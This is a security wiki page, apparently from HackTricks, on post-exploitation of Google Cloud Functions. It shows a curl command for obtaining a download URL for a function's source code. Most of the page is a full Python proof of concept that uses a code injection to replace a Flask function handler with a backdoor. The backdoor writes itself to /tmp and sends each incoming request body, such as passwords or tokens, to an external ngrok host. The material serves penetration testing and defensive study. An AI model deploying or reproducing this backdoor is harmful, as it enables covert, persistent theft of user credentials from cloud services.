 # GCP - Cloud Functions Post Exploitation

{{#include ../../../banners/hacktricks-training.md}}

## Cloud Functions

Find some information about Cloud Functions in:

{{#ref}}
../gcp-services/gcp-cloud-functions-enum.md
{{#endref}}

### `cloudfunctions.functions.sourceCodeGet`

With this permission you can get a **signed URL to be able to download the source code** of the Cloud Function:

```bash
curl -X POST https://cloudfunctions.googleapis.com/v2/projects/{project-id}/locations/{location}/functions/{function-name}:generateDownloadUrl \
-H "Authorization: Bearer $(gcloud auth application-default print-access-token)" \
-H "Content-Type: application/json" \
-d '{}'
```

### Steal Cloud Function Requests

If the Cloud Function is managing sensitive information that users are sending (e.g. passwords or tokens), with enough privileges you could **modify the source code of the function and exfiltrate** this information.

Moreover, Cloud Functions running in python use **flask** to expose the web server, if you somehow find a code injection vulnerability inside the flaks process (a SSTI vulnerability for example), it's possible to **override the function handler** that is going to receive the HTTP requests for a **malicious function** that can **exfiltrate the request** before passing it to the legit handler.

For example this code implements the attack:

```python
import functions_framework


# Some python handler code
@functions_framework.http
def hello_http(request, last=False, error=""):
    """HTTP Cloud Function.
    Args:
        request (flask.Request): The request object.
        <https://flask.palletsprojects.com/en/1.1.x/api/#incoming-request-data>
    Returns:
        The response text, or any set of values that can be turned into a
        Response object using `make_response`
        <https://flask.palletsprojects.com/en/1.1.x/api/#flask.make_response>.
    """

    if not last:
        return injection()
    else:
        if error:
            return error
        else:
            return "Hello World!"


# Attacker code to inject
# Code based on the one from https://github.com/Djkusik/serverless_persistency_poc/blob/master/gcp/exploit_files/switcher.py

new_function = """
def exfiltrate(request):
    try:
        from urllib import request as urllib_request
        req = urllib_request.Request("https://8b01-81-33-67-85.ngrok-free.app", data=bytes(str(request._get_current_object().get_data()), "utf-8"), method="POST")
        urllib_request.urlopen(req, timeout=0.1)
    except Exception as e:
        if not "read operation timed out" in str(e):
            return str(e)

    return ""

def new_http_view_func_wrapper(function, request):
    def view_func(path):
        try:
            error = exfiltrate(request)
            return function(request._get_current_object(), last=True, error=error)
        except Exception as e:
            return str(e)

    return view_func
"""

def injection():
    global new_function
    try:
        from flask import current_app as app
        import flask
        import os
        import importlib
        import sys

        if os.access('/tmp', os.W_OK):
            new_function_path = "/tmp/function.py"
            with open(new_function_path, "w") as f:
                f.write(new_function)
            os.chmod(new_function_path, 0o777)

        if not os.path.exists('/tmp/function.py'):
            return "/tmp/function.py doesn't exists"

        # Get relevant function names
        handler_fname = os.environ.get("FUNCTION_TARGET") # Cloud Function env variable indicating the name of the function to habdle requests
        source_path = os.environ.get("FUNCTION_SOURCE", "./main.py") # Path to the source file of the Cloud Function (main.py by default)
        realpath = os.path.realpath(source_path) # Get full path

        # Get the modules representations
        spec_handler = importlib.util.spec_from_file_location("main_handler", realpath)
        module_handler = importlib.util.module_from_spec(spec_handler)

        spec_backdoor = importlib.util.spec_from_file_location('backdoor', '/tmp/function.py')
        module_backdoor = importlib.util.module_from_spec(spec_backdoor)

        # Load the modules inside the app context
        with app.app_context():
            spec_handler.loader.exec_module(module_handler)
            spec_backdoor.loader.exec_module(module_backdoor)

        # make the cloud funtion use as handler the new function
        prev_handler = getattr(module_handler, handler_fname)
        new_func_wrap = getattr(module_backdoor, 'new_http_view_func_wrapper')
        app.view_functions["run"] = new_func_wrap(prev_handler, flask.request)
        return "Injection completed!"

    except Exception as e:
        return str(e)
```



{{#include ../../../banners/hacktricks-training.md}}
